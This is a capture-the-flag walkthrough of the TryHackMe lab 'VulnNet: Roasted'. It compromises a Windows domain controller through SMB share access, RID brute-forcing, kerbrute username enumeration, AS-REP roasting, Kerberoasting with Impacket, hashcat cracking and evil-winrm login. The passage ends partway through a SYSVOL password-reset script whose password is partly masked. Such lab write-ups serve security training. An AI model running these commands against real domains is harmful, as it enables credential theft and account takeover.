# VulnNet: Roasted


VulnNet Entertainment just deployed a new instance on their network with the newly-hired system administrators. Being a security-aware company, they as always hired you to perform a penetration test, and see how system administrators are performing.  

- **Difficulty**: Easy
- **Operating System**: Windows
- **Platform**: Tryhackme
- **Category**: Windows, Powershell, AS-REP Roasting, Kerberoasting, Active Directory

This is a much simpler machine, do not overthink. You can do it by following common methodologies.

Note: It _might_ take up to 6 minutes for this machine to fully boot.

Icon made by [DinosoftLabs](https://www.flaticon.com/authors/dinosoftlabs) from [www.flaticon.com](https://www.flaticon.com)


# Nmap Scan

```shell
# Nmap 7.94SVN scan initiated Fri May 24 09:35:43 2024 as: nmap -sCV -p- --min-rate=1000 -T4 -oN scan -vv 10.10.57.84
Increasing send delay for 10.10.57.84 from 0 to 5 due to 11 out of 24 dropped probes since last increase.
Increasing send delay for 10.10.57.84 from 5 to 10 due to 11 out of 18 dropped probes since last increase.
Nmap scan report for 10.10.57.84
Host is up, received echo-reply ttl 127 (0.24s latency).
Scanned at 2024-05-24 09:35:43 WAT for 308s
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-05-24 08:39:09Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 35555/tcp): CLEAN (Timeout)
|   Check 2 (port 32794/tcp): CLEAN (Timeout)
|   Check 3 (port 63650/udp): CLEAN (Timeout)
|   Check 4 (port 9241/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2024-05-24T08:40:08
|_  start_date: N/A
|_clock-skew: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 24 09:40:51 2024 -- 1 IP address (1 host up) scanned in 308.22 seconds
```

# SMB Enumeration

List shares with smbclient



```shell
smbclient -L  IP
```

Connect to anonymous share



```shell
smbclient \\\\IP\\SHARE
```

Checking for write access



Download all files with mget



Accessing second anonymous share and downloading all files. No write access


# LDAP Enumeration

Nmap scan

```shell
# Nmap 7.94SVN scan initiated Fri May 24 11:35:59 2024 as: nmap -n -sV --script "ldap* and not brute" -oN ldap_scan 10.10.52.56
Nmap scan report for 10.10.52.56
Host is up (0.20s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-05-24 10:36:20Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local, Site: Default-First-Site-Name)
| ldap-rootdse: 
| LDAP Results
|   <ROOT>
|       domainFunctionality: 7
|       forestFunctionality: 7
|       domainControllerFunctionality: 7
|       rootDomainNamingContext: DC=vulnnet-rst,DC=local
|       ldapServiceName: vulnnet-rst.local:win-2bo8m1oe1m1$@VULNNET-RST.LOCAL
|       isGlobalCatalogReady: TRUE
|       supportedSASLMechanisms: GSSAPI
|       supportedSASLMechanisms: GSS-SPNEGO
|       supportedSASLMechanisms: EXTERNAL
|       supportedSASLMechanisms: DIGEST-MD5
|       supportedLDAPVersion: 3
|       supportedLDAPVersion: 2
|       supportedLDAPPolicies: MaxPoolThreads
|       supportedLDAPPolicies: MaxPercentDirSyncRequests
|       supportedLDAPPolicies: MaxDatagramRecv
|       supportedLDAPPolicies: MaxReceiveBuffer
|       supportedLDAPPolicies: InitRecvTimeout
|       supportedLDAPPolicies: MaxConnections
|       supportedLDAPPolicies: MaxConnIdleTime
|       supportedLDAPPolicies: MaxPageSize
|       supportedLDAPPolicies: MaxBatchReturnMessages
|       supportedLDAPPolicies: MaxQueryDuration
|       supportedLDAPPolicies: MaxDirSyncDuration
|       supportedLDAPPolicies: MaxTempTableSize
|       supportedLDAPPolicies: MaxResultSetSize
|       supportedLDAPPolicies: MinResultSets
|       supportedLDAPPolicies: MaxResultSetsPerConn
|       supportedLDAPPolicies: MaxNotificationPerConn
|       supportedLDAPPolicies: MaxValRange
|       supportedLDAPPolicies: MaxValRangeTransitive
|       supportedLDAPPolicies: ThreadMemoryLimit
|       supportedLDAPPolicies: SystemMemoryLimitPercent
|       supportedControl: 1.2.840.113556.1.4.319
|       supportedControl: 1.2.840.113556.1.4.801
|       supportedControl: 1.2.840.113556.1.4.473
|       supportedControl: 1.2.840.113556.1.4.528
|       supportedControl: 1.2.840.113556.1.4.417
|       supportedControl: 1.2.840.113556.1.4.619
|       supportedControl: 1.2.840.113556.1.4.841
|       supportedControl: 1.2.840.113556.1.4.529
|       supportedControl: 1.2.840.113556.1.4.805
|       supportedControl: 1.2.840.113556.1.4.521
|       supportedControl: 1.2.840.113556.1.4.970
|       supportedControl: 1.2.840.113556.1.4.1338
|       supportedControl: 1.2.840.113556.1.4.474
|       supportedControl: 1.2.840.113556.1.4.1339
|       supportedControl: 1.2.840.113556.1.4.1340
|       supportedControl: 1.2.840.113556.1.4.1413
|       supportedControl: 2.16.840.1.113730.3.4.9
|       supportedControl: 2.16.840.1.113730.3.4.10
|       supportedControl: 1.2.840.113556.1.4.1504
|       supportedControl: 1.2.840.113556.1.4.1852
|       supportedControl: 1.2.840.113556.1.4.802
|       supportedControl: 1.2.840.113556.1.4.1907
|       supportedControl: 1.2.840.113556.1.4.1948
|       supportedControl: 1.2.840.113556.1.4.1974
|       supportedControl: 1.2.840.113556.1.4.1341
|       supportedControl: 1.2.840.113556.1.4.2026
|       supportedControl: 1.2.840.113556.1.4.2064
|       supportedControl: 1.2.840.113556.1.4.2065
|       supportedControl: 1.2.840.113556.1.4.2066
|       supportedControl: 1.2.840.113556.1.4.2090
|       supportedControl: 1.2.840.113556.1.4.2205
|       supportedControl: 1.2.840.113556.1.4.2204
|       supportedControl: 1.2.840.113556.1.4.2206
|       supportedControl: 1.2.840.113556.1.4.2211
|       supportedControl: 1.2.840.113556.1.4.2239
|       supportedControl: 1.2.840.113556.1.4.2255
|       supportedControl: 1.2.840.113556.1.4.2256
|       supportedControl: 1.2.840.113556.1.4.2309
|       supportedControl: 1.2.840.113556.1.4.2330
|       supportedControl: 1.2.840.113556.1.4.2354
|       supportedCapabilities: 1.2.840.113556.1.4.800
|       supportedCapabilities: 1.2.840.113556.1.4.1670
|       supportedCapabilities: 1.2.840.113556.1.4.1791
|       supportedCapabilities: 1.2.840.113556.1.4.1935
|       supportedCapabilities: 1.2.840.113556.1.4.2080
|       supportedCapabilities: 1.2.840.113556.1.4.2237
|       subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=vulnnet-rst,DC=local
|       serverName: CN=WIN-2BO8M1OE1M1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=vulnnet-rst,DC=local
|       schemaNamingContext: CN=Schema,CN=Configuration,DC=vulnnet-rst,DC=local
|       namingContexts: DC=vulnnet-rst,DC=local
|       namingContexts: CN=Configuration,DC=vulnnet-rst,DC=local
|       namingContexts: CN=Schema,CN=Configuration,DC=vulnnet-rst,DC=local
|       namingContexts: DC=DomainDnsZones,DC=vulnnet-rst,DC=local
|       namingContexts: DC=ForestDnsZones,DC=vulnnet-rst,DC=local
|       isSynchronized: TRUE
|       highestCommittedUSN: 61478
|       dsServiceName: CN=NTDS Settings,CN=WIN-2BO8M1OE1M1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=vulnnet-rst,DC=local
|       dnsHostName: WIN-2BO8M1OE1M1.vulnnet-rst.local
|       defaultNamingContext: DC=vulnnet-rst,DC=local
|       currentTime: 20240524103845.0Z
|_      configurationNamingContext: CN=Configuration,DC=vulnnet-rst,DC=local
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local, Site: Default-First-Site-Name)
| ldap-rootdse: 
| LDAP Results
|   <ROOT>
|       domainFunctionality: 7
|       forestFunctionality: 7
|       domainControllerFunctionality: 7
|       rootDomainNamingContext: DC=vulnnet-rst,DC=local
|       ldapServiceName: vulnnet-rst.local:win-2bo8m1oe1m1$@VULNNET-RST.LOCAL
|       isGlobalCatalogReady: TRUE
|       supportedSASLMechanisms: GSSAPI
|       supportedSASLMechanisms: GSS-SPNEGO
|       supportedSASLMechanisms: EXTERNAL
|       supportedSASLMechanisms: DIGEST-MD5
|       supportedLDAPVersion: 3
|       supportedLDAPVersion: 2
|       supportedLDAPPolicies: MaxPoolThreads
|       supportedLDAPPolicies: MaxPercentDirSyncRequests
|       supportedLDAPPolicies: MaxDatagramRecv
|       supportedLDAPPolicies: MaxReceiveBuffer
|       supportedLDAPPolicies: InitRecvTimeout
|       supportedLDAPPolicies: MaxConnections
|       supportedLDAPPolicies: MaxConnIdleTime
|       supportedLDAPPolicies: MaxPageSize
|       supportedLDAPPolicies: MaxBatchReturnMessages
|       supportedLDAPPolicies: MaxQueryDuration
|       supportedLDAPPolicies: MaxDirSyncDuration
|       supportedLDAPPolicies: MaxTempTableSize
|       supportedLDAPPolicies: MaxResultSetSize
|       supportedLDAPPolicies: MinResultSets
|       supportedLDAPPolicies: MaxResultSetsPerConn
|       supportedLDAPPolicies: MaxNotificationPerConn
|       supportedLDAPPolicies: MaxValRange
|       supportedLDAPPolicies: MaxValRangeTransitive
|       supportedLDAPPolicies: ThreadMemoryLimit
|       supportedLDAPPolicies: SystemMemoryLimitPercent
|       supportedControl: 1.2.840.113556.1.4.319
|       supportedControl: 1.2.840.113556.1.4.801
|       supportedControl: 1.2.840.113556.1.4.473
|       supportedControl: 1.2.840.113556.1.4.528
|       supportedControl: 1.2.840.113556.1.4.417
|       supportedControl: 1.2.840.113556.1.4.619
|       supportedControl: 1.2.840.113556.1.4.841
|       supportedControl: 1.2.840.113556.1.4.529
|       supportedControl: 1.2.840.113556.1.4.805
|       supportedControl: 1.2.840.113556.1.4.521
|       supportedControl: 1.2.840.113556.1.4.970
|       supportedControl: 1.2.840.113556.1.4.1338
|       supportedControl: 1.2.840.113556.1.4.474
|       supportedControl: 1.2.840.113556.1.4.1339
|       supportedControl: 1.2.840.113556.1.4.1340
|       supportedControl: 1.2.840.113556.1.4.1413
|       supportedControl: 2.16.840.1.113730.3.4.9
|       supportedControl: 2.16.840.1.113730.3.4.10
|       supportedControl: 1.2.840.113556.1.4.1504
|       supportedControl: 1.2.840.113556.1.4.1852
|       supportedControl: 1.2.840.113556.1.4.802
|       supportedControl: 1.2.840.113556.1.4.1907
|       supportedControl: 1.2.840.113556.1.4.1948
|       supportedControl: 1.2.840.113556.1.4.1974
|       supportedControl: 1.2.840.113556.1.4.1341
|       supportedControl: 1.2.840.113556.1.4.2026
|       supportedControl: 1.2.840.113556.1.4.2064
|       supportedControl: 1.2.840.113556.1.4.2065
|       supportedControl: 1.2.840.113556.1.4.2066
|       supportedControl: 1.2.840.113556.1.4.2090
|       supportedControl: 1.2.840.113556.1.4.2205
|       supportedControl: 1.2.840.113556.1.4.2204
|       supportedControl: 1.2.840.113556.1.4.2206
|       supportedControl: 1.2.840.113556.1.4.2211
|       supportedControl: 1.2.840.113556.1.4.2239
|       supportedControl: 1.2.840.113556.1.4.2255
|       supportedControl: 1.2.840.113556.1.4.2256
|       supportedControl: 1.2.840.113556.1.4.2309
|       supportedControl: 1.2.840.113556.1.4.2330
|       supportedControl: 1.2.840.113556.1.4.2354
|       supportedCapabilities: 1.2.840.113556.1.4.800
|       supportedCapabilities: 1.2.840.113556.1.4.1670
|       supportedCapabilities: 1.2.840.113556.1.4.1791
|       supportedCapabilities: 1.2.840.113556.1.4.1935
|       supportedCapabilities: 1.2.840.113556.1.4.2080
|       supportedCapabilities: 1.2.840.113556.1.4.2237
|       subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=vulnnet-rst,DC=local
|       serverName: CN=WIN-2BO8M1OE1M1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=vulnnet-rst,DC=local
|       schemaNamingContext: CN=Schema,CN=Configuration,DC=vulnnet-rst,DC=local
|       namingContexts: DC=vulnnet-rst,DC=local
|       namingContexts: CN=Configuration,DC=vulnnet-rst,DC=local
|       namingContexts: CN=Schema,CN=Configuration,DC=vulnnet-rst,DC=local
|       namingContexts: DC=DomainDnsZones,DC=vulnnet-rst,DC=local
|       namingContexts: DC=ForestDnsZones,DC=vulnnet-rst,DC=local
|       isSynchronized: TRUE
|       highestCommittedUSN: 61478
|       dsServiceName: CN=NTDS Settings,CN=WIN-2BO8M1OE1M1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=vulnnet-rst,DC=local
|       dnsHostName: WIN-2BO8M1OE1M1.vulnnet-rst.local
|       defaultNamingContext: DC=vulnnet-rst,DC=local
|       currentTime: 20240524103845.0Z
|_      configurationNamingContext: CN=Configuration,DC=vulnnet-rst,DC=local
3269/tcp open  tcpwrapped
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 24 11:38:47 2024 -- 1 IP address (1 host up) scanned in 167.44 seconds

```

```shell
nmap -n -sV --script "ldap* and not brute" IP -oN ldap_sca
```

Here we are able to obtain the domain name to be `vulnnet-rst.local`. Input the entry into your `/etc/hosts` file:



# Domain Enumeration

Checking contents of the files gotten from the SMB shares, we get a couple names

```
Alexa Whitehat
Jack Goldenhand
Tony Skid
Johnny Leet
```

we don't know the naming convention but can try this 

```
awhitehat
jgoldenhand
tskid
jleet
```

we can try using a tool called [kerbrute](https://github.com/ropnop/kerbrute) to check if these are valid users. Kebrute is a tool used to quickly bruteforce and enumerate valid Active Directory accounts through Kerberos Pre-Authentication.Visit the link and grab the latest binary. 
**NOTE**: Nmap shows kerberos is running on the target.



None of them are valid.

Using a tool called `netexec` we can further enumerate users



```shell
nxc smb 10.10.52.56 -u 'guest' -p '' --rid-brute | grep SidTypeUser
```

crackmapexec can also be used instead, it has the same syntax.

Here we can see the naming scheme used. Insert all names into the userlist file and run kerbrute again.





```shell
./kerbrute userenum --dc vulnnet-rst.local -d vulnnet-rst.local  user.txt
```

# AS-REP Roasting

With these valid names we can try to retrieve kerberos tickets using a tool `GetNPUsers`. This _will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that’s necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute._

We have 7 accounts that we could use.

Impacket Syntax:

```shell
impacket-GetNPUsers DOMAIN/user -no-pass
```



we are able to retrieve a ticket with the user `t-skid`

copy the hash into a file and crack using hashcat. The hashcat mode is `18200`



```shell
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```



# Kerberoasting

With these we can then perform kerberoasting using  the impacket tool `GetUserSPNs`



```shell
impacket-GetUserSPNs -dc-ip IP vulnnet-rst.local/t-skid:'PASSWORD'
```

we have the account `enterprise-core-vn`

Add the `-request` switch to get the hash


Crack the hash using hashcat. The mode is `13100`





Now login as the user `enterprise-core-vn` and the password obtained using evil-winrm



```shell
evil-winrm -i vulnnet-rst.local -u enterprise-core-vn -p 'PASSWORD'
```

obtain the user flag.

# Privilege Escalation

winPEAS won't work because of antivirus protection.

User privileges show nothing useful.

I remembered the SYSVOL share we couldn't access earlier via smbclient and i tried to access it on the system itself by navigating to the default location for SYSVOL



There you will find a scripts folder and inside there is a vbs script for resetting password



From the content we can get the password for the user `a-whitehat`

```vb
Option Explicit

Dim objRootDSE, strDNSDomain, objTrans, strNetBIOSDomain
Dim strUserDN, objUser, strPassword, strUserNTName

' Constants for the NameTranslate object.
Const ADS_NAME_INITTYPE_GC = 3
Const ADS_NAME_TYPE_NT4 = 3
Const ADS_NAME_TYPE_1779 = 1

If (Wscript.Arguments.Count <> 0) Then
    Wscript.Echo "Syntax Error. Correct syntax is:"
    Wscript.Echo "cscript ResetPassword.vbs"
    Wscript.Quit
End If

strUserNTName = "a-whitehat"
strPassword = "bNdKV*********"

' Determine DNS domain name from RootDSE object.
Set objRootDSE = GetObject("LDAP://RootDSE")
strDNSDomain = objRootDSE.Get("defaultNamingContext")

' Use the NameTranslate object to find the NetBIOS domain name from the
' DNS domain name.
Set objTrans = CreateObject("NameTranslate")
objTrans.Init ADS_NAME_INITTYPE_GC, ""
objTrans.Set ADS_NAME_TYPE_1779, strDNSDomain
strNetBIOSDomain = objTrans.Get(ADS_NAME_TYPE_NT4)
' Remove trailing backslash.
strNetBIOSDomain = Left(strNetBIOSDomain, Len(strNetBIOSDomain) - 1)

' Use the NameTranslate object to convert the NT user name to the
' Distinguished Name required for the LDAP provider.
On Error Resume Next
objTrans.Set ADS_NAME_TYPE_NT4, strNetBIOSDomain & "\" & strUserNTName
If (Err.Number <> 0) Then
    On Error GoTo 0
    Wscript.Echo "User " & strUserNTName _
        & " not found in Active Directory"
    Wscript.Echo "Program aborted"
    Wscript.Quit
End If
strUserDN = objTrans.Get(ADS_NAME_TYPE_1779)
' Escape any forward slash characters, "/", with the backslash
' escape character. All other characters that should be escaped are.
strUserDN = Replace(strUserDN, "/", "\/")

' Bind to the user object in Active Directory with the LDAP provider.
On Error Resume Next
Set objUser = GetObject("LDAP://" & strUserDN)
If (Err.Number <> 0) Then
    On Error GoTo 0
    Wscript.Echo "User " & strUserNTName _
        & " not found in Active Directory"
    Wscript.Echo "Program aborted"
    Wscript.Quit
End If
objUser.SetPassword strPassword
If (Err.Number <> 0) Then
    On Error GoTo 0
    Wscript.Echo "Password NOT reset for " &vbCrLf & strUserNTName
    Wscript.Echo "Password " & strPassword & " may not be allowed, or"
